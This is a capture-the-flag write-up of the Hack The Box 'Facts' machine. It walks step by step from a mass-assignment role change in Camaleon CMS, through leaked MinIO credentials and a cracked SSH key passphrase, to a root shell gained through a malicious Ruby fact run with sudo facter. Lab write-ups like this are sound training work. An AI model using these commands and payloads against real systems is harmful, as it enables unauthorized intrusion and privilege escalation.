

This write-up documents the full compromise of the **Facts** machine on Hack The Box.

The machine demonstrates a realistic attack chain involving:

- Web application exploitation
- Cloud storage enumeration
- Credential leakage
- SSH key cracking
- Local privilege escalation

The final attack path:



---

## 🛡️ Initial Enumeration & Reconnaissance

**Objective**: Identify exposed services and technologies.

The first step was to scan the target system to discover open services.

```bash
nmap -sC -sV -p- 10.129.7.38
```

### Scan Results

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu
80/tcp open  http    nginx
```

**Key findings**:
* SSH service on port 22
* Web application on port 80

The next step was to investigate the web application.

## 🌐 Web Application Enumeration

**Objective**: Identify the CMS and entry points.

Opening the web server revealed a **blog-style CMS application**.

**Key observations**:
* The website allows **user registration**
* Login functionality is available
* Some pages reveal references to **Camaleon CMS**

This indicates the backend is likely running **Camaleon CMS**.


## 👤 Initial Access: User Account Creation

**Objective**: Gain foothold via registration.

A new user account was created through the registration form.

**Example credentials**:
```text
Username: testuser
Password: Password123!
```

After logging in, the user gained access to a **standard user dashboard**.

However, administrator functionality was not available.

To continue the assessment, **BurpSuite** was used to intercept requests.

## 🔓 Privilege Escalation: Mass Assignment

**Objective**: Elevate from user to admin via vuln.

BurpSuite proxy was configured and login requests were intercepted.

When modifying profile information, the following request was observed:

```http
POST /admin/users/updated_ajax HTTP/1.1
Host: target
Content-Type: application/x-www-form-urlencoded
```

**Request parameters**:
```text
user[name]=testuser
user[email]=test@test.com
user[role]=subscriber
```

The application did not properly validate the `role` parameter.


# Privilege Escalation via Mass Assignment

The application did not properly validate the `role` parameter.

**Exploitation**:
By modifying the intercepted request:

```text
user[role]=admin
```

and forwarding the request, the account was successfully promoted to **administrator**.

After refreshing the dashboard, **admin features became accessible**.

---


# Accessing Admin Settings

Inside the admin panel:

```
/admin/settings
```

a section related to storage configuration was discovered.

The page contained MinIO credentials used for object storage.

Example configuration found:

```
MINIO_ENDPOINT: http://minio.internal
MINIO_ACCESS_KEY: admin
MINIO_SECRET_KEY: password123
```

These credentials allow direct access to the MinIO storage service.

---

# MinIO Enumeration

Using the MinIO client, we connected to the storage service.

First configure the client:

```bash
mc alias set minio http://target:9000 admin password123
```

Then list available buckets:

```bash
mc ls minio
```

### Result

```
[2026-03-17 09:30]  internal
[2026-03-17 09:30]  uploads
```

The **internal bucket** looked promising.

---

# Downloading Bucket Data

To retrieve the contents:

```bash
mc cp --recursive minio/internal ./internal_dump
```

The dump contained a user's home directory.

Directory structure:

```
internal_dump/
 ├── .bashrc
 ├── .profile
 └── .ssh
      ├── authorized_keys
      └── id_ed25519
```

This revealed an **SSH private key**.

---

# Inspecting the SSH Key

Checking the key format:

```bash
file internal_dump/.ssh/id_ed25519
```

Output:

```
OpenSSH private key
```

However the key was **encrypted with a passphrase**.

---

# Cracking the SSH Passphrase

Convert the key to a crackable format:

```bash
python3 /usr/share/john/ssh2john.py internal_dump/.ssh/id_ed25519 > ssh.hash
```

Then run John the Ripper:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
```

### Cracking Result

```
dragonballz (id_ed25519)
```

The passphrase was successfully recovered.

---

# SSH Access

Using the key and passphrase:

```bash
ssh -i internal_dump/.ssh/id_ed25519 trivia@10.129.7.38
```

After entering the passphrase:

```
Enter passphrase for key:
dragonballz
```

A shell was obtained as user:

```
trivia@facts:~$
```

---

# Post-Exploitation Enumeration

Check current privileges:

```bash
whoami
```

```
trivia
```

Listing users:

```bash
ls /home
```

```
trivia
william
```

---

# User Flag

The user flag was located in William's home directory.

```bash
cat /home/william/user.txt
```

Output:

```
0a70[...Redirected..]eaac1fb
```

---

# Privilege Escalation

Running sudo enumeration:

```bash
sudo -l
```

Output:

```
User trivia may run the following commands on facts:
(ALL) NOPASSWD: /usr/bin/facter
```

`facter` is a Ruby-based tool used by Puppet.

It allows loading **custom Ruby facts**, which means we can execute arbitrary Ruby code.

---

# Exploiting Facter

Create a malicious Ruby fact:

```bash
mkdir -p /tmp/facts
nano /tmp/facts/root.rb
```

Payload:

```ruby
Facter.add(:root_shell) do
  setcode do
    exec('/bin/bash')
  end
end
```

Execute facter with the custom directory:

```bash
sudo /usr/bin/facter --custom-dir /tmp/facts
```

This spawns a root shell:

```
root@facts:/home/trivia#
```

---

# Root Flag

Finally, retrieve the root flag.

```bash
cat /root/root.txt
```

Output:

```
6e1d[...Redirected..]44f60eb44
```

---

# Attack Chain Summary

```
Web Application (Camaleon CMS)
        ↓
Mass Assignment → Admin
        ↓
MinIO Credentials Disclosure
        ↓
Internal Bucket Enumeration
        ↓
SSH Key Exposure
        ↓
Passphrase Cracked with John
        ↓
SSH Login as trivia
        ↓
sudo facter → Ruby Code Execution
        ↓
Root Access
```

---

# Lessons Learned

This machine demonstrates several important security issues:

* Web applications must validate user input to prevent **mass assignment attacks**
* Secrets stored in configuration panels can expose **infrastructure credentials**
* Cloud storage buckets should never contain **sensitive backups**
* SSH private keys must be protected and rotated if leaked
* Dangerous administrative tools should never be allowed through **sudo without restrictions**

---

# Conclusion

The **Facts** machine highlights how multiple small vulnerabilities can combine into a full system compromise.

By chaining together:

* web exploitation
* credential discovery
* key cracking
* local privilege escalation

